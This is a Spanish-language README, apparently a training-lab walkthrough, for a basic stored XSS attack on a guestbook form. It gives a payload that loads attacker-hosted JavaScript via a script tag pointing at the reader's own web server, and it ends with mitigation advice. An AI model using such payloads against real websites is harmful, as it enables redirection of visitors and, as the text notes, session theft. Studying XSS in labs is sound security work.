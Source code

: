 # Explotación Cross-Site Scripting (XSS) Básico con Redirección

Este readme describe una explotación básica de Cross-Site Scripting (XSS) de nivel bajo que resulta en una redirección de página.

## Pre-requisitos

1.  **Servidor Web Temporal:** Asegúrate de tener un servidor web temporal en ejecución. Puedes iniciarlo con Python:
    ```bash
    python -m http.server 80
    ```
    o
    ```bash
    python -m SimpleHTTPServer 80
    ```
    Si Apache u otro servidor web está corriendo en el puerto 80, deténlo primero:
    ```bash
    sudo service apache2 stop
    ```

2.  **Archivo Javascript de Redirección (`r.js`):** Crea un archivo llamado `r.js` en el directorio donde iniciaste el servidor web temporal. Su contenido debe ser la instrucción Javascript para la redirección, reemplazando `http://www.tu-pagina-deseada.com` con la URL deseada:
    ```javascript
    window.location.replace("[http://www.tu-pagina-deseada.com](http://www.tu-pagina-deseada.com)");
    ```

## Pasos de Explotación

1.  **Acceder al Formulario:** Abre la página web que contiene el formulario con los campos "Name" y "Message".

2.  **Introducir Nombre:** En el campo "Name", introduce cualquier valor (máximo 10 caracteres), por ejemplo: `prueba`.

3.  **Introducir Payload XSS:** En el campo "Message", introduce la siguiente etiqueta `<script>` para incluir el script desde tu servidor web temporal. Reemplaza `[tu_IP]` con la dirección IP de tu máquina donde está corriendo el servidor web temporal (si es local, puedes usar `127.0.0.1` o `localhost`).

    ```html
    <script src=http://[tu_IP]/r.js></script>
    ```

    **Ejemplo:** Si tu IP es `192.168.1.100`, el payload sería:

    ```html
    <script src=[http://192.168.1.100/r.js](http://192.168.1.100/r.js)></script>
    ```

    **Importante:** Verifica que la longitud del payload sea menor de 50 caracteres.

4.  **Enviar Formulario:** Haz clic en el botón "Sign Guestbook". Esto enviará los datos al servidor y mostrará una nueva entrada en el guestbook.

5.  **Verificar Inclusión del Script:** Haz clic derecho en la nueva entrada del guestbook y selecciona "Inspeccionar elemento". Busca en el código fuente para confirmar que la etiqueta `<script>` se ha insertado correctamente.

6.  **Verificar Petición al Servidor:** Observa la salida de tu servidor web temporal. Deberías ver una petición GET para el archivo `r.js` cuando la página se recarga o cuando otro usuario la visita.

7.  **Verificar Redirección:** Recarga la página web. Deberías ser redirigido automáticamente a la URL que especificaste en el archivo `r.js`.

## Impacto

Esta explotación demuestra una vulnerabilidad básica de XSS donde un atacante puede inyectar código Javascript malicioso en una página web. En este caso, el resultado es una redirección a una página controlada por el atacante. En escenarios más avanzados, un atacante podría robar información de sesión, realizar acciones en nombre del usuario o inyectar contenido malicioso adicional.

## Mitigación

Para prevenir este tipo de vulnerabilidades XSS, es crucial implementar las siguientes medidas:

* **Validación y Sanitización de Entradas:** Limpiar y validar todas las entradas del usuario antes de mostrarlas en la página web. Esto incluye escapar caracteres especiales que podrían interpretarse como código HTML o Javascript.
* **Codificación de Salida:** Codificar los datos antes de mostrarlos en la página web para evitar que el navegador los interprete como código ejecutable.
* **Política de Seguridad de Contenido (CSP):** Implementar CSP para controlar los recursos que el navegador puede cargar para una página web, lo que puede ayudar a mitigar los ataques XSS.
* **Utilizar Frameworks Seguros:** Muchos frameworks web modernos implementan medidas de seguridad para prevenir vulnerabilidades comunes como el XSS.